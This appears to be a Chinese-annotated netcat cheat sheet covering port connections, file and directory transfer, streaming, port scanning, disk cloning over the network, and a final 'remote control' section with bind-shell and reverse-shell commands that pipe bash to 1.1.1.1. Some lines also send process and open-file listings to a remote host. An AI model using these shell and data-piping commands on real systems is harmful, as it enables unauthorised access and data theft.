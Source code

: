 # netcat - nc

```bash
# 作为客户端连接到服务器的特定端口
nc -nv 123.125.50.29 110
nc -nv 123.125.50.138 25
nc -nv 1.1.1.1 80

# 传输文本信息
s: nc -l -p 333
c: nc -nv 10.1.1.12 333
c: ls -l | nc -nv 10.1.1.12 333

s: nc -l -p 333 > ps.txt
c: ps aux | nc -nv 10.1.1.12 333 -q 1

s: nc -l -p 333 > lsof.txt
c: lsof | nc -nv 10.1.1.12 333 -q 1

# 传输文件
A: nc -l -p 333 > 1.mp4
B: nc -nv 1.1.1.1 333 < 1.mp4 -q 1

A: nc -l -p 333 < a.mp4 -q 1
B: nc -nv 1.1.1.1 333 > a.mp4

# 传输目录
A: tar -cvf - sublime/ | nc -lp 333 -q 1
B: nc -nv 1.1.1.1 333 | tar -xvf -

# 加密传输文件
A: nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
B: mcrypt --flush -Fbq -a rijndael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1

# 流媒体服务
A: cat 1.mp4 | nc -lp 333
B: nc -nv 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -

# 端口扫描
nc -nvz 1.1.1.1 1-65535
nc -nvzu 1.1.1.1 1-1024

# 远程克隆硬盘
A: nc -lp 333 | dd of=/dev/sda
B: dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1

# 远程控制
# 正向
A: nc -lp 333 -c bash
B: nc 1.1.1.1 333

# 反向
A: nc -lp 333
B: nc 1.1.1.1 333 -c bash

```
